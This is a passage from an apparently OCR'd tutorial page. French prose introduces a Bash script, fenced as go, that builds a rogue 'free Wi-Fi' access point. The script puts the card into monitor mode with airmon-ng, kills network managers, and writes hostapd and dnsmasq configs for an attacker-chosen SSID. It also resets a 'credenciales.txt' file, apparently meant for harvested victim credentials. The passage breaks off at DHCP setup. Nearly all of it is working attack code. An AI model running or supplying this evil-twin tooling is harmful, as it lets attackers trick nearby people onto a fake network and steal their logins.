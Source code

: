  C'est dans cette phase où une série de fichiers temporaires nécessaires au déploiement de l'AP seront configurés, faisant fonctionner la carte réseau en mode routeur (il est obligatoire que la carte réseau utilisée accepte le **mode moniteur**) :

```go
function startAttack(){
	clear; if [[ -e credenciales.txt ]]; then
		rm -rf credenciales.txt
	fi

	echo -e "\n${yellowColour}[*]${endColour} ${purpleColour}Listando interfaces de red disponibles...${endColour}"; sleep 1

	# Si la interfaz posee otro nombre, cambiarlo en este punto (consideramos que se llama wlan0 por defecto)
	airmon-ng start wlan0 > /dev/null 2>&1; interface=$(ifconfig -a | cut -d ' ' -f 1 | xargs | tr ' ' '\n' | tr -d ':' > iface)
	counter=1; for interface in $(cat iface); do
		echo -e "\t\n${blueColour}$counter.${endColour}${yellowColour} $interface${endColour}"; sleep 0.26
		let counter++
	done; tput cnorm
	checker=0; while [ $checker -ne 1 ]; do
		echo -ne "\n${yellowColour}[*]${endColour}${blueColour} Nombre de la interfaz (Ej: wlan0mon): ${endColour}" && read choosed_interface

		for interface in $(cat iface); do
			if [ "$choosed_interface" == "$interface" ]; then
				checker=1
			fi
		done; if [ $checker -eq 0 ]; then echo -e "\n${redColour}[!]${endColour}${yellowColour} La interfaz proporcionada no existe${endColour}"; fi
	done

	rm iface 2>/dev/null
	echo -ne "\n${yellowColour}[*]${endColour}${grayColour} Nombre del punto de acceso a utilizar (Ej: wifiGratis):${endColour} " && read -r use_ssid
	echo -ne "${yellowColour}[*]${endColour}${grayColour} Canal a utilizar (1-12):${endColour} " && read use_channel; tput civis
	echo -e "\n${redColour}[!] Matando todas las conexiones...${endColour}\n"
	sleep 2
	killall network-manager hostapd dnsmasq wpa_supplicant dhcpd > /dev/null 2>&1
	sleep 5

	echo -e "interface=$choosed_interface\n" > hostapd.conf
	echo -e "driver=nl80211\n" >> hostapd.conf
	echo -e "ssid=$use_ssid\n" >> hostapd.conf
	echo -e "hw_mode=g\n" >> hostapd.conf
	echo -e "channel=$use_channel\n" >> hostapd.conf
	echo -e "macaddr_acl=0\n" >> hostapd.conf
	echo -e "auth_algs=1\n" >> hostapd.conf
	echo -e "ignore_broadcast_ssid=0\n" >> hostapd.conf

	echo -e "${yellowColour}[*]${endColour}${grayColour} Configurando interfaz $choosed_interface${endColour}\n"
	sleep 2
	echo -e "${yellowColour}[*]${endColour}${grayColour} Iniciando hostapd...${endColour}"
	hostapd hostapd.conf > /dev/null 2>&1 &
	sleep 6

	echo -e "\n${yellowColour}[*]${endColour}${grayColour} Configurando dnsmasq...${endColour}"
	echo -e "interface=$choosed_interface\n" > dnsmasq.conf
	echo -e "dhcp-range=192.168.1.2,192.168.1.30,255.255.255.0,12h\n" >> dnsmasq.conf
	echo -e "dhcp-option=3,192.168.1.1\n" >> dnsmasq.conf
```